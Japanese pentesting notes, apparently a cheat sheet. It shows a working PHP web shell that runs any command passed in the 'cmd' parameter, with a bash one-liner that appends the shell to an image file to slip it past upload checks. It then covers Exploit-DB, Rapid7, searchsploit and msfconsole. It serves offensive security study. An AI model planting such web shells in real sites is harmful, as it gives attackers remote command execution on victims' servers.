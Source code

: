 ## 任意のスクリプトの画像ファイルへの挿入

以下のようなphpのwebシェルを画像ファイルに追記する。

```php
<?php
	
	if(isset($_REQUEST['cmd'])){
		echo "<pre>";
		$cmd = ($_REQUEST['cmd']);
		system($cmd);
		echo "</pre>";
		die;
	}

?>
```

```bash
cat PHP_FILE_ABOVE >> IMAGE_FILE
```

ヘッダーの識別子が画像ファイルなのにフッターの識別子が一致しないにもかかわらずビューアーでは画像が表示されることがある。このようなファイルは画像ファイルの後部に何か別のデータが追加されている可能性がある。
# Vulnerability Databases
## Exploit-DB

[OffSec’s Exploit Database Archive](https://www.exploit-db.com/)

## Rapid7

[Vulnerability & Exploit Database - Rapid7](https://www.rapid7.com/db/)

## searchsploit

Exploit-DBのコマンドライン検索ツール

```bash
searchsploit KEYWORDS
```

出力されたexploitのファイルは `/usr/share/exploitdb/exploits/` に存在。

`-m` オプションの引数にexploitファイルのパス(`/usr/share/exploitdb/exploits/` より下)を指定してカレントディレクトリにコピーできる。
# Metasploit

脆弱性の利用やスキャン、攻撃など様々な機能を有するフレームワーク。Metasploit consoleを介して利用する。

```bash
# metasploit consoleを起動
msfconsole
```
